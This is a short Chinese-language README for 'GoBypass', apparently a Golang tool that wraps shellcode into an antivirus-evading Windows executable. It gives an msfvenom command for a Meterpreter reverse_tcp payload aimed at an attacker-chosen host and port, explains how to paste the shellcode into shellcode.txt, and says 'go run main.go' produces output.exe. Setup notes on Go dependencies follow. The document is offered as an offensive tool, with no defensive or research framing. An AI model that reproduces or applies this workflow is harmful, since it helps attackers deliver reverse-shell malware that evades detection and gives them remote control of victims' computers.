 # GoBypass

`Golang`免杀马生成工具（该工具仅针对`Windows`系统）

在`Kali`中使用`msfvenom`生成需要的`Payload`（注意使用`-f c`参数）

示例：`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=ip lport=port -f c`

复制出以下格式的`shellcode`并在当前目录新建`shellcode.txt`写入

```text
unsigned char buf[] = 
"\xfc\x48..."
......
"\xff\xe7...";
```

使用命令：`go run main.go`即可在当前目录生成免杀马`output.exe`

注意：
1. 确保环境变量中有`go`否则无法编译
2. 如果报错请先执行`go mod download`命令下载依赖
3. 如果下载依赖过慢可以配置阿里云镜像`go env -w GOPROXY=https://mirrors.aliyun.com/goproxy`